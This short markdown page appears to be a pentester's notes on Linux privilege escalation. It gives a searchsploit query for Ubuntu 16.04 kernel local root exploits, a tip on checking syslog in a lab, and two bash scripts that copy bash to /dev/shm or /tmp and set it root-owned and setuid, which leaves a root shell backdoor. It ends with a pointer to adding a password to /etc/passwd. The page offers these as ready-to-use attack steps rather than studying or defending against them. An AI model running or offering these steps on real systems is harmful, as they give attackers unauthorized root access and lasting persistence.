 # Tricks

```bash
# Given we know we are running 16.04.3 LTS (kernel 4.4.0-116-generic)
searchsploit "Linux Kernel Ubuntu 16.04 Local Privilege Escalation" | grep "4." | grep -v " < 4.4.0"
```

Checking `syslog` when testing exploits in a lab environment is particularly useful when they dont work as intended

Living in `/dev/shm/` (`/dev/shm` is RAM)

```bash
#!/bin/bash
cp /bin/bash /dev/shm/bash
chown root:root /dev/shm/bash
chmod u+s /dev/shm/bash
```

Living in `/tmp/`

```bash
#!/bin/bash
cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod u+s /tmp/bash
```

Generate a password for `/etc/passwd` with [openssl](../Tools/Encryption/openssl.md)
